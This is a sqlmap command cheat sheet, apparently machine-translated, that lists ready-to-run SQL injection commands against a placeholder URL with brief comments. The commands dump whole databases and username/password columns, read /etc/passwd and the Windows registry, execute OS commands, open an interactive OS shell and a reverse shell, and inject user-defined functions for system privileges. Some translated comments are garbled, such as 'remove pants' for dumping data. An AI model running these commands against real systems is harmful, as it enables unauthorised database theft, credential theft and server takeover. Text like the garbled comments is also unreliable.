 Sqlmap -u "http://url/news?id=1" --udf-inject 				#Import user-defined functions (get system privileges!)
Sqlmap -u "http://url/news?id=1" --dump-all --exclude-sysdbs -v 0 #list out all tables in the current library
Sqlmap -u "http://url/news?id=1" --union-cols 				#union Query table record
Sqlmap -u "http://url/news?id=1" --cookie "COOKIE_VALUE" 	#cookie injection
Sqlmap -u "http://url/news?id=1" -b 						#Get banner information
Sqlmap -u "http://url/news?id=1" --data "id=3" 				#postinjection
Sqlmap -u "http://url/news?id=1" -v 1 -f 					#fingerprint database type
Sqlmap -u "http://url/news?id=1" --proxy "http://127.0.0.1:8118" # Agent injection
Sqlmap -u "http://url/news?id=1" --string "STRING_ON_TRUE_PAGE" #Specify keywords
Sqlmap -u "http://url/news?id=1" --sql-shell 				#Execute the specified sql command
Sqlmap -u "http://url/news?id=1" --file /etc/passwd
Sqlmap -u "http://url/news?id=1" --os-cmd=whoami 			#Execute system commands
Sqlmap -u "http://url/news?id=1" --os-shell					#system interactive shell
Sqlmap -u "http://url/news?id=1" --os-pwn 					#bounce shell
Sqlmap -u "http://url/news?id=1" --reg-read					# read win system registry
Sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" 		# Save the progress
Sqlmap -u "http://url/news?id=1" --dbs -o "sqlmap.log" --resume # Restore saved progress






-v parameter, level of detail, observe how sqlmap is trying to judge a point and read data.

## There are seven levels, the default is 1:

0, only show python errors and serious information.
 
1. Display basic information and warning information at the same time. (default)
 
2. Display debug information at the same time.
 
3. Display the injected payload at the same time.
 
4. Display HTTP requests at the same time.
 
5. Display the HTTP response header at the same time.
 
6. Display the HTTP response page at the same time.


# Use sqlmap to remove pants
The –dump parameter is used to remove the pants. Add the whole -all(–dump-all) if you drag the whole

Specify the field specified in the specified table:

sqlmap -u "http://xxx/index.php?id=1" --dump -D DBName -T TableName -C "id,username,password"

Take off the entire pants:

sqlmap -u "http://xxx/index.php?id=1" -D DBName --dump-all


# Advanced usage

